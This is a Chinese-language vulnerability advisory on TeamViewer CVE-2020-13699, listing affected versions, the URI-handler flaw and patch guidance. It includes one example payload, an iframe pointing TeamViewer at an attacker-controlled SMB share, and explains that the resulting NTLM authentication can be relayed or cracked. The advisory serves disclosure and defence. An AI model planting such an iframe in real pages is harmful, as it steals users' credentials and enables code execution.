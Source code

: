 # TeamViewer 远程代码执行漏洞(CVE-2020-13699)

最后更新于：2020-09-23 15:53:05

#### 影响版本

TeamViewer < 8.0.258861
TeamViewer < 9.0.28860
TeamViewer < 10.0.258873
TeamViewer < 11.0.258870
TeamViewer < 12.0.258869
TeamViewer < 13.2.36220
TeamViewer < 14.2.56676
TeamViewer < 15.8.3

#### 漏洞描述

TeamViewer存在未引用的搜索路径或元素的安全缺陷，由于应用程序没有正确引用它的自定义URI处理程序，当安装有TeamViewer的易受攻击版本的系统访问恶意创建的网站时，可能会被利用。
攻击者可以使用精心制作的URL

```
（iframe src='teamviewer10: --play \\attacker-IP\share\fake.tvs'）
```

![img](../images/TeamViewer%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E(CVE-2020-13699)/20200918191638492.png)
![img](../images/TeamViewer%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E(CVE-2020-13699)/20200918191646922.png)
将恶意iframe嵌入网站中，从而启动TeamViewer Windows桌面客户端并强制其打开远程SMB共享。
Windows将在打开SMB共享时，执行NTLM身份验证，并且可以转发该请求（使用如响应程序之类的工具）以执行代码（或捕获该请求以进行哈希破解）

#### 修复建议

针对此漏洞官方已在8.0.258861、9.0.258860、10.0.258873、11.0.258870、12.0.258869、13.2.36220、14.2.56676、14.7.48350和15.8.3版本中修复。
请受影响的用户参考以下链接安装补丁更新：https://www.teamviewer.com/en/download/previous-versions/